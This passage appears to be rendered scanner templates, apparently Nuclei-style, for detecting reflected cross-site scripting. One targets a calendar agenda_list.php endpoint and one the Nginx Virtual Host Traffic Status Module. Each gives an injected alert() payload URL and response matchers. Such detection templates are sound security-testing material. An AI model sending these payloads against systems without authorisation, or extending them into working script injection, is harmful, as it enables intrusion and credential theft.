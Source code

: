 ## Requests

- Method - GET

### URL

- {{BaseURL}}/main/calendar/agenda_list.php?type=xss"+onmouseover=alert(document.domain)+"

### Matchers

**Type - word**

- part - body
- words
  1. agenda_js.php?type=xss" onmouseover=alert(document.domain)

**Type - status**

- status
  1. 200

**Type - word**

- part - header
- words
  1. text/html

---

# Nginx Virtual Host Traffic Status Module - Cross-Site Scripting

## Description

- Nginx Virtual Host Traffic Status Module contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - nginx,xss,status

## Requests

- Method - GET

### URL

- {{BaseURL}}/status%3E%3Cscript%3Ealert(31337)%3C%2Fscript%3E

### Matchers

**Type - status**

- status
  1. 200
